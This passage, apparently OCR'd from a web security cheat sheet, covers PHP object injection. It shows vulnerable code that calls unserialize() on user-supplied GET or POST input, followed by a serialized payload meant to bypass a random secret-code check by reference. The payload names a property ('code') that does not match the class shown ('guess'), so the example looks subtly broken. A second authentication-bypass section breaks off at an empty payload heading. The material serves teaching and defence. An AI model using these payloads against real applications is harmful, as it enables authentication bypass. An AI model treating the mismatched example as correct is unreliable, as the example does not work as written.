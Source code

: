 Vulnerable code:

```
<?php
class Object
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```

**Payload:**

```
O:6:"Object":2:{s:10:"secretCode";N;s:4:"code";R:2;}
```

### Authentication bypass - Object reference:

Vulnerable code:

```
class Example3
{
   protected $obj;

   function __construct()
   {
      // some PHP code...
   }

   function __toString()
   {
      if (isset($this->obj)) return $this->obj->getValue();
   }
}

// some PHP code...

$user_data = unserialize($_POST['data']);

// some PHP code..
```

**Payload:**
